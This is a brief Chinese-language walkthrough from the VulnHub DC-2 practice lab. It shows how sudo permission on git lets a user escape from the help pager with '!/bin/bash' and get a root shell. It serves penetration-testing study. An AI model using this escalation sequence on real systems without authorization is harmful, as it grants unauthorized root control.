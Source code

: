 ## 实验环境——vulnhub-dc2靶场

git提权

前提：用户可以使用sudo中git权限

查看sudo权限

```bash
sudo -l
```

![image-20240119172000450](http://111.229.225.13:81/i/2024/01/19/ukdzbw-2.png)

可以发现git命令存在sudo提权

基于此进行权限提升

方式：

```bash
sudo git help config #在末行命令模式输入 
!/bin/bash 或 !'sh' #完成提权 
sudo git -p help 
!/bin/bash #输入!/bin/bash，即可打开一个用户为root的shell
```

输入sudo git help config后会有一个很长的文本，在此基础上，按下: ，在输入!/bin/bash

然后按q退出,再输出sudo git -p help命令，同上输入!/bin/bash

![image-20240119172321933](http://111.229.225.13:81/i/2024/01/19/ukcsu5-2.png)

![image-20240119172502115](http://111.229.225.13:81/i/2024/01/19/ukhkee-2.png)

![image-20240119172527354](http://111.229.225.13:81/i/2024/01/19/ukcay3-2.png)